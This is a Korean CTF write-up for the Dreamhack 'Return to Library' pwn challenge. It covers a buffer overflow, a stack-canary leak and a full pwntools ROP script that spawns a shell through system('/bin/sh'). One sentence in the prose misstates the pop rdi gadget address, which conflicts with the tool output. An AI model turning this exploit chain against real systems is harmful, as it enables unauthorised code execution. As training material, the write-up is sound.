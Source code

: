 # Return to Library - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 2
- Provided Files: rtl.c, rtl(ELF)
- tools: gdb(pwndbg)
## Brief Description
Exploit Tech: Return to Library에서 실습하는 문제입니다.
## Initial Analysis
### Environment
``` sh
checksec --file=rtl
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
### Code
``` c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```
`system`의 PLT를 출력한다. 이후 사용자로부터 2번의 입력을 받는다.  
ELF는 사용하는 함수에 대해서만 PLT에 등록하는데, 바이너리 내부에서 `system`을 사용하기 때문에 `system` 함수의 PLT가 존재한다.  
또한 전역변수에 `"/bin/sh"`가 존재한다.  
## Vulnerability
### BOF(Buffer Overflow)
``` c
read(0, buf, 0x100);
```
`buf`의 크기는 0x30인 반면, `read`로 읽어오는 크기는 0x100이다. 이로인해 BOF 취약점이 발생하며 총 2번의 취약점이 발생한다.
### OOB(Out Of Bounds)
``` c
printf("Buf: %s\n", buf);
```
첫 번째 BOF 취약점 이후, `buf`를 출력한다. 만일 NULL-byte가 `buf` 내부에 없을 경우 OOB 취약점이 발생한다.  
## Exploit
### Strategy
PIE는 비활성화 되어있어 함수의 주소는 바뀌지 않지만, canary가 활성화 되어있어 canary leak으로 우회가 필요하다.  
각 한 번의 BOF와 OOB를 통해 canary 값을 leak하고, 두 번째 BOF를 통해 canary를 우회하여 최종적으로 Return to Libc 공격을 수행할 수 있다. canary leak을 할 때, canary의 LSB는 NULL-byte이므로 해당 값까지 덮어써야 leak을 할 수 있다. 왜냐하면 printf() 함수는 NULL-byte를 만날 때까지 출력하는데, little endian으로 인해 스택 카나리의 LSB인 NULL-byte가 낮은 주소에 있으므로 NULL-byte를 덮어쓰지 않으면 canary leak을 할 수 없다.  
공격에 필요한 정보는 다음과 같다.  
| 정보 | 역할 | 확보 방법 |
| --- | --- | --- |
| system_PLT | system 호출 | pwndbg> plt |
| "/bin/sh" addr | system 함수 인자 | pwndbg> search /bin/sh |
| pop_rdi | system 인자를 레지스터에 전달 | ROPgadget --binary ./rtl --re "pop rdi" |
| ret | 스택 정렬 | ROPgadget --binary=./rtl \| grep ": ret" |

> 주의점  
`system()` 함수로 rip가 이동할 때, 스택은 반드시 0x10 단위로 정렬되어 있어야 한다. 이는 system 함수 내부에 있는 `movaps` 명령어 때문인데, 이 명령어는 스택이 0x10 단위로 정렬되어 있지 않으면 Segmentation Fault를 발생시킨다. `movaps` 명령어는 하드웨어 수준에서 데이터 처리 속도를 극대화하기 위해 만들어진 명령어인데, 설계 자체가 '데이터는 반드시 16바이트로 정렬되어 있어야 한다'를 전제로 하고 있기 때문이다.  
따라서 `system()` 함수를 이용한 익스플로잇을 작성할 때 Segmentation Fault가 발생한다면(익스플로잇을 잘 작성하였다고 가정했을 때), `ret`과 같은 아무 의미 없는 가젯(no-op gadget)을 이용해 한번 system 함수의 가젯을 8바이트 뒤로 미뤄보면 좋다.
### Exploitation Steps
``` sh
pwndbg> plt
Section .plt 0x4005a0 - 0x400610:
0x4005b0: puts@plt
0x4005c0: __stack_chk_fail@plt
0x4005d0: system@plt
0x4005e0: printf@plt
0x4005f0: read@plt
0x400600: setvbuf@plt
```
`system()`의 plt가 `0x4005d0`인 것을 확인할 수 있다.  
``` sh
pwndbg> search /bin/sh
Searching for byte: b'/bin/sh'
rtl             0x400874 0x68732f6e69622f /* '/bin/sh' */
rtl             0x600874 0x68732f6e69622f /* '/bin/sh' */
libc.so.6       0x7ffff7f62678 0x68732f6e69622f /* '/bin/sh' */
```
`"/bin/sh"`의 주소(`0x400874`)를 확인할 수 있다.  
``` sh
$ ROPgadget --binary ./rtl --re "pop rdi"
Gadgets information
============================================================
0x0000000000400853 : pop rdi ; ret

Unique gadgets found: 1
```
`pop rdi` 가젯 주소가 `0x0000000000400596`인 것을 확인할 수 있다.  
``` sh
$ ROPgadget --binary ./rtl --re "ret"
0x0000000000400596 : ret
```
`ret` 가젯의 주소를 확인할 수 있다.  
### Stack Frame of main
| Variable Name | Offset from RBP |
| --- | --- |
| ra | +0x8 |
| rbp |  |
| canary | -0x8 |
| dummy | -0x10 |
| buf | -0x40 |
### payload
``` python
from pwn import *

p = remote('host8.dreamhack.games', 18644)
context.arch = "amd64"

system_plt = 0x4005d0
binsh = 0x400874
pop_rdi = 0x0000000000400853
ret = 0x0000000000400596

# leak canary
leak_canary = b''
leak_canary += b'A' * 0x39 # to cover the canary NULL-byte, 0x38 + 0x1
p.sendafter(b'Buf: ', leak_canary)
p.recvuntil(leak_canary) # 내가 입력한 부분까지 받아옴
canary = u64(b'\x00' + p.recvn(7))
log.info(f'leaked canary: {canary}')

# exploit
payload = b''
payload += b'A' * 0x38 # buf + dummy
payload += p64(canary) # canary
payload += b'B' * 0x8 # rbp
payload += p64(ret) # align stack to prevent errors caused by movaps
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)
pause()
p.sendafter(b'Buf: ', payload)

# sh
p.interactive()
```